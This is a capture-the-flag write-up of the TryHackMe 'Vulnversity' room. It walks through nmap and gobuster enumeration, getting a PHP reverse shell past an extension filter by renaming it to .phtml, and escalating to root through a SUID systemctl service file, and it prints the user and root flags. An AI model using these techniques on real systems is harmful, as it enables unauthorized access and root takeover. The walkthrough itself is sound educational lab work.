



# Project: Vulnversity CTF

## 1\. Executive Summary

**Objective**: Conduct a black-box penetration test on the target host 10.80.136.49 (Vulnversity) to identify vulnerabilities, gain initial access, and escalate privileges to root.
**Result**: The assessment identified a critical File Upload vulnerability allowing for Remote Code Execution (RCE). Furthermore, a misconfigured SUID binary (systemctl) allowed for privilege escalation to the root user.

## 2\. Technical Findings \& Walkthrough

### Step 1: Reconnaissance \& Enumeration

**Objective**: Identify open ports and running services.
**Methodology**: I performed a service version scan using Nmap to identify active services on the target.

```bash
nmap -sV 10.80.136.49
```

**Findings**:

* **Open Ports**: 6 ports were identified as open.
* **Services**:

  * Squid Proxy (Version 4.10).
  * Web Server running on port 3333.

* **OS**: Ubuntu.

Figure 1: Nmap service version scan output showing open ports.


### Step 2: Web Directory Enumeration

**Objective**: Locate hidden directories on the custom web server port.
**Methodology**: Using gobuster, I brute-forced directories targeting port 3333 using a common wordlist.

```bash
gobuster dir -u http://10.80.136.49:3333 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

**Findings**: I discovered a hidden directory `/internal/`, which hosted a file upload form.

Figure 2: Gobuster scan revealing the /internal/ directory.


### Step 3: Initial Compromise (File Upload Bypass)

**Vulnerability**: Unrestricted File Upload / Extension Bypass
**Severity**: Critical
**Methodology**: I attempted to upload a PHP reverse shell, but the server blocked the standard `.php` extension. I used Burp Suite to fuzz the upload form and identify allowed extensions.
**Exploitation Steps**:

1. **Fuzzing**: Burp Intruder revealed that while `.php` was blocked, `.phtml` was allowed.
2. **Weaponization**: I renamed a PHP reverse shell script to `php-reverse-shell.phtml` and configured it to connect back to my attack machine.
3. **Execution**: I started a Netcat listener (`nc -lvnp 1234`) and navigated to the uploaded file location.
4. **Access**: The shell executed successfully, granting me access as the user `bill`.
   **Proof of Concept**:
   **User Flag**: `8bd7992fbe8a6ad22a63361004cfcedb`

Figure 3: Successful reverse shell connection granting user access.


**Remediation**:

* Implement strict allow-listing for file extensions (e.g., only allow `.jpg`, `.png`).
* Configure the web server to prevent execution of scripts in the upload directory.

### Step 4: Privilege Escalation

**Vulnerability**: SUID Binary Misconfiguration (systemctl)
**Severity**: Critical
**Methodology**: I searched the system for files with the SUID bit set, which allows a user to execute a file with the permissions of its owner (root).

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

**Findings**: The binary `/bin/systemctl` stood out as having SUID permissions enabled. This is dangerous as systemctl can manage system services.
**Exploitation Steps**: I consulted GTFOBins and created a malicious service file to read the root flag and output it to a temporary file.

1. **Create Exploit Service**:

&nbsp;   ```bash
    TF=$(mktemp).service
    echo '\[Service]
    Type=oneshot
    ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
    \[Install]
    WantedBy=multi-user.target' > $TF
    ```

2. **Execute**:

&nbsp;   ```bash
    /bin/systemctl link $TF
    /bin/systemctl enable --now $TF
    ```

3. **Retrieve Flag**: I read the output file generated by the malicious service:

&nbsp;   ```bash
    cat /tmp/output
    ```

**Proof of Concept**:
**Root Flag**: `a58ff8579f0a9270368d33a9966c7fd5`

Figure 4: Exploiting systemctl to read the root flag.


**Remediation**:

* Remove the SUID bit from systemctl: `chmod u-s /bin/systemctl`
* Restrict sudo/SUID permissions to only necessary binaries.

---

**Disclaimer**
This project was performed on the TryHackMe "Vulnversity" room for educational purposes.

